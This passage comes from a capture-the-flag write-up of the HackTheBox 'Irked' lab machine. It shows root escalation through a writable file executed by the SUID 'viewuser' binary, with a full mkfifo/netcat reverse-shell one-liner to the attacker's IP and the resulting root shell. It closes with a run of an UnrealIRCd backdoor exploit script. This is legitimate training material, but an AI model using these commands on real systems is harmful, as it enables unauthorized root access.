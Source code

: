 I changed permissions again so I could edit the listusers file, and then echoed 'id' to it. In the output I can see the results of id and the command was run as root. 

```sh
djmardov@irked:/tmp$ chmod 744 listusers
djmardov@irked:/tmp$ echo 'id' > listusers 
djmardov@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-12-18 21:52 (:0)
djmardov pts/1        2021-12-19 08:46 (10.10.14.34)
djmardov pts/2        2021-12-19 09:24 (10.10.14.34)
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```


After trying a couple reverse shells, I got one to work.

```sh
djmardov@irked:/tmp$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.34 443 >/tmp/f' > listusers
djmardov@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-12-18 21:52 (:0)
djmardov pts/1        2021-12-19 08:46 (10.10.14.34)
djmardov pts/2        2021-12-19 09:24 (10.10.14.34)
rm: cannot remove ‘/tmp/f’: No such file or directory
```

```sh
kali@kali-[~/boxes/htb/irked]$nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.117] 54454
# whoami
root
# 
```


```sh
# cat root.txt
8d8e9e8be64654b................
```

# Did I need djmardov?

Considering I had access to the viewuser binary before getting access to djmardov, I wondered if I needed to perform lateral movement to get root. I reset the box becuase the IRC service crashes after the initial exploit runs. 

I ran the initial expoit again and got a shell as the ircd user.

```sh
kali@kali-[~/boxes/htb/irked/UnrealIRCd-3.2.8.1-Backdoor]$python3 exploit.py -payload bash 10.10.10.117 6697
Exploit sent successfully!
```
